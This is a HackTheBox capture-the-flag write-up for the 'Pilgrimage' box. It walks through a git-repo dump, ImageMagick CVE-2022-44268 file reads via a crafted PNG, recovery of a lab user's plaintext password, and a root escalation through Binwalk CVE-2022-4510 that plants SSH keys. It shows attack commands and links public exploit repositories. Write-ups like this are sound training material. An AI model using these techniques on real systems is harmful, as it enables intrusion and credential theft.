# Pilgrimage -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Pilgrimage (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-12-07

---

## TL;DR

### Exposed .git repo revealed ImageMagick usage. CVE-2022-44268 to read files via crafted PNG. Extracted SQLite DB with credentials. Privesc via Binwalk path traversal (CVE-2022-4510) to plant SSH keys.
---

## Target info

- Host: `pilgrimage.htb` (added to `/etc/hosts`)
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`

---

## Enumeration



Port 80 redirects to `pilgrimage.htb`. Rescanned:

```bash
sudo nmap -p 22,80 -sCV pilgrimage.htb -vvv
```



Git repository found. Dumped it:



Used `git checkout .` to restore files.


Found `magick` binary. Reviewed source:



POST requests with images go to `index.php` -- saves file in `/tmp`:



Creates a new filename with `uniqid()`:



Runs magick to shrink image by 50% and deletes original:



If logged in, saves path to DB:



Copy of magick in repo is executable:



ImageMagick 7.1.0-49 beta:



CVE-2022-44268 -- crafted PNG with `tEXt` chunk keyword "profile" makes ImageMagick read arbitrary files.

---

## Foothold

Used exploit from `https://github.com/kljunowsky/CVE-2022-44268`:



Created malicious `pngout.png` and uploaded to pilgrimage.htb:



Found user `emily`. No SSH keys found.



Found SQLite database filepath. Binary data caused the ASCII-expecting script to error, so extracted manually:



```bash
identify -verbose 66ddff730a36c.png | grep -Pv "^( |Image)" | xxd -r -p > pilgrimage.sqlite
```



- `emily:abigchonkyboi123`



---

## Privilege escalation





**Dirty Pipe didn't work.**

```bash
ps aux
```



Root is running `/usr/sbin/malwarescan.sh` with `inotifywait` watching for file creations in `/var/www/pilgrimage.htb/shrunk`.



Uses binwalk to check files for executables:



Binwalk CVE-2022-4510 -- `os.path.join` doesn't resolve `../` sequences, allowing files to be placed in unintended locations (like SSH keys).



Generated SSH keys and crafted malicious PNG:

```bash
ssh-keygen -t ed25519 -f ./id_ed25519
python walkingpath.py ssh sample.png ./id_ed25519.pub
```

- `https://github.com/adhikara13/CVE-2022-4510-WalkingPath`

Uploaded the exploit PNG:

```bash
scp ./binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/
```

SSH'd as root:

```bash
ssh -i id_ed25519 root@pilgrimage.htb
```

---

## Lessons & takeaways

- Exposed `.git` directories reveal source code and binary versions
- ImageMagick CVE-2022-44268 reads arbitrary files via crafted PNG metadata
- Binary file extraction from image metadata requires manual hex conversion
- Binwalk path traversal (CVE-2022-4510) can plant SSH keys when a root process runs binwalk on user-controlled files
---
